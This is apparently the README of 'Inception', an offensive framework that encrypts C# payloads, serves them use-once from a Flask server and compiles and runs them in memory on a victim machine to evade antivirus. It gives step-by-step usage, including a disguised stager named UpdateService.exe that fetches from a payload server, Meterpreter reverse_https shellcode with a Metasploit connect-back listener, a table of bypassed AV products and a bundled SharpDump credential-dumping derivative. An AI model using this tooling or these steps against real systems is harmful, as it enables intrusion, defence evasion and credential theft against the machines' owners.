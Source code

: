 # Inception Framework

Inception provides In-memory compilation and reflective loading of C# apps for AV evasion. Payloads are AES encrypted before transmission and are decrypted in memory. The payload server ensures that payloads can only be fetched a pre-determined number of times. Once decrypted, Roslyn is used to build the C# payload in memory, which is then executed using reflection.

Inception has been successful in bypassing a number of AV products. These tests were conducted on a fully patched, 64-bit Windows 10 host using Metasploit Meterpreter shellcode.

| Product        | Bypass Type           |
| ------------- |:-------------:|
| Cylance     | 32-bit shellcode injection | 
| McAfee Endpoint  Adaptive Threat Protection      | 64-bit shellcode injection | 
| Sophos Intercept X     | 64-bit shellcode injection | 
| Symantec Endpoint 14      | 64-bit shellcode injection | 
| ESET Internet Security     | 64-bit shellcode injection | 


[@two06](https://twitter.com/two06) is the primary author of this project.

Inception is released under the MIT license. A derivative of the [SharpDump](https://github.com/GhostPack/SharpDump/)  project  is included with Inception, its licence file can be found in the SharpDump.licence file.

##Requirements

Flask (pip install Flask)
Colorama (pip install Colorama)

## Overview

Inception is comprised of three main components:

- The payload builder (inception.py)
- A payload server (server.py)
- The "stager", a .NET executable which must be launched on the victim machine. 

Payloads are built using Inception.py. Currently, two types of payload are supported:

- Shellcode
- Custom

These payload types are described in more detail below. Inception.py will guide you through the payload creation process, depending on which menu options are selected. 

Payloads are served using a Flask app (server.py). This app either serves the encrypted, pre-generated payload, or issues a redirect to a specified URL. Payloads are, by default, use-once. If an attempt to retrieve a payload which has already been used is made, the server will issue a redirect. If a non-existent payload is requested, the server will issue a redirect. 

The stager is a .NET application which fetches, decodes, compiles and executes the payload. This application must be run on the victim machine. The stager is large (~10MB) when built. 

###Usage

Generate payloads using Inception.py

```
python Inception.py                                                                                                   
 _____ _   _ _____  ___________ _____ _____ _____ _   _ 
|_   _| \ | /  __ \|  ___| ___ \_   _|_   _|  _  | \ | |
  | | |  \| | /  \/| |__ | |_/ / | |   | | | | | |  \| |
  | | | . ` | |    |  __||  __/  | |   | | | | | | . ` |
 _| |_| |\  | \__/\| |___| |     | |  _| |_\ \_/ / |\  |
 \___/\_| \_/\____/\____/\_|     \_/  \___/ \___/\_| \_/

'You mean, a dream within a dream?'

[*] Initial setup complete!
Select payload type:
1. Shellcode
2. Custom
3. Help
0. Quit
 >>  1

```
when firt run, Inception will generate a directory structure in ~/.inception/ containing the payload database, raw payload directory and encrypted payload directory. 

To serve payloads, run Server.py as root (Server.py listens on port 80).

```
sudo python Server.py
 * Serving Flask app "Server" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```
Build the "RoslynLoad" .NET project, using visual studio. For 64-bit targets, the compiler MUST target x64. "Any CPU" can be used for 32-bit. 

Copy the generated EXE file to the victim machine and execute. 

```
UpdateService.exe "http://payload.server.URL/<ENCRYPTION KEY>"
```
The encryption key is displayed once a payload is generated using Inception.py

Note that a Metasploit listener must be running to receive the connect-back shell.

### Shellcode Payloads
Shellcode payloads use msfvenom to generate x86 or x64 Meterpreter shellcode. In this version, only reverse_https payloads are supported. 

x86 payloads use x86/shijata_ga_nai encoding. 
x64 payloads use x64/xor encoding. 

Generated shellcode is injected into a specified template file. Two examples have been included with this release:

- /Templates/Shellcode/ShellCode_Inject.txt
- /Templates/shellcode/ShellCode_Inject_76.txt

Template files contain a tag, which indicates where the generated shellcode should be placed:

```
byte[] shellcode = new byte[] {
     <SHELLCODE>
};

```

### Custom Payloads

Custom payloads allow arbitrary C# programs to be encrypted and loaded on the victim machine. No payload generation occurs for these templates; they must be complete C# programs. 

A modified version of [SharpDump](https://github.com/GhostPack/SharpDump) has been included with this release. 


### Creating Payloads

New payloads can be created using the following template. For Shellcode payloads, the SHELLCODE tag may be used to indicate where to place the generated shellcode.

```
Using System;
Using <other libraries>

namespace Inception
{
	class Program
	{
		//other methods as required
		
		public static void Run()
		{
			//Entrypoint code here
		}
	}
}
```
If non-standard libraries are required, the appropriate reference must be added to the Roslyn compilation code. The following examples shows the "System.IO.Compression.GZStream" reference (used by SharpDump).

```
MetadataReference[] references = new MetadataReference[]
            {
                MetadataReference.CreateFromFile(typeof(object).Assembly.Location),
                MetadataReference.CreateFromFile(typeof(Enumerable).Assembly.Location),
                MetadataReference.CreateFromFile(typeof(System.IO.Compression.GZipStream).Assembly.Location)
            };
```

## Acknowledgments

Lots of this code was modified from StackOverflow and various blog posts. If you see code that you wrote, which is not credited, please let me know and I'll be happy to add acknowledgements. 

